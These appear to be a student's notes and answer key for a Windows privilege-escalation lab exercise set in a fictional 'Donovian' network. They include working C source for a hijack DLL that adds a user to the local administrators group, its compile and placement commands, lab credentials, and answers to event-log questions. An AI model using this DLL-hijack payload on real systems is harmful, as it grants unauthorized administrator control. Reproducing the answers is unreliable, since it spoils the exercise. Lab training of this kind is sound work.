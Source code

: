 Donovian Windows Privilege Escalation (DWP)
XX Jan 2027
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyberspace Exploitation (C-E)

Objective: Maneuver into the Donovian internal network, gain privileged access to discovered Windows host.

Tools/Techniques: SSH and RDP masquerade into internal network with provided credentials. Ports in use will be dependent on target location and are subject to change. Windows techniques to gain privileged access such as DLL hijack, UAC bypass through weak paths, permissions, and tasks. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = 3@SYw1nd0w55t@rt0F@ct1v1ty

Prior Approvals: DLL hijack and UAC bypass, restarting of services through host reboot. Host survey utilizing native command shells, which shell is at discretion of student.

Scheme of Maneuver:
>Jump Box
->Pivot: 192.168.28.105
-->T1: 192.168.28.5

Target Section:

Pivot
Hostname: ftp.site.donovia
IP: 192.168.28.105
OS: Ubuntu 18.04
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222
Malware: none
Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

T1
Hostname: donovian-windows-private
IP: 192.168.28.5
OS: Windows ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: 3389
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

## Exercise
### vuln 1
Analyze the System and identify the means to escalate your privileges. Report the "status" of your finding by entering the correct Display Name.
- xfreerdp /v:127.0.0.1:1111 /u:comrade /p:StudentPrivPassword /size:1920x1024 +clipboard
- Scheduled Tasks
- get-wmiobject win32_service | where-object {$_.pathname -notlike "c:\windows\*"} | select-object -property name,displayname,pathname
  - Services
    - sort by description (if blank, look into)
- sc.exe qc MemoryStatus
- MemoryStatus.exe

### vuln 2
What Account will it utilize at Log on?
- Services
  - 'Log in As' 'Local System'
- sc.exe qc MemoryStatus

### escalation type
What type of escalation can you perform with your findings?
- DLL Hijacking

### DLLs  
What is the name of the DLL that is supposed to be loaded, by the vulnerable service?
- get-content c:\memorystatus\service.c
  -  hinstLib = LoadLibrary(TEXT("hijackmeplz.dll"));

### code
Sample code below has been provided by our dev shop, they have been testing it; however, it appears to not function and they request your help to get it to function.
` C
#include 
int happyfunction(char * test)
{
 WinExec();
 return ;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 happyfunction("");
 return 0;`
Correct the code in order to escalate your privileges. What you seek is waiting on the Admin's Desktop.

`#include <windows.h>
int execCommand()
{
 WinExec("cmd /C net localgroup administrators comrade /add",1);
 return 0;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 execCommand();
 return 0;
}`

- i686-w64-mingw32-g++ -c bad.c -o bad.o
- i686-w64-mingw32-g++ -shared -o bad.dll bad.o -Wl,--out-implib,bad.a
- python -m SimpleHTTPServer 8000
- grab file from target
- rename to vulnerable dll and place in dll location
- get-childitem -recurse hijackmeplz.dll | format-table directory,creationtime,lastwritetime
- copy .\Downloads\hijackmeplz.dll c:\MemoryStatus\
restart device
- net user comrade


### windows event log 1
What service is causing a error level log for 31 May between 1200-1330 hrs. System log file is located under comrade's directory.

- search time and look under "General" tab
- Fortnite MMM service

### windows event log 2
Using the same "system.evtx" log, what was the date the offending service was first created? Provide answer in the following format: YYYY-MM-DD

- filter log by error event ids 7000,7009
- 2019-05-31

### windows event log 3
Using the same "system.evtx" log, is this a legitimate Windows service? To correctly answer the question enter Y or N.

- Not a legitimate service, falls under the epic service

### windows event log 4
Using the same "system.evtx" log, The system time has changed, what is the new year?

- look at date and time
- 2230
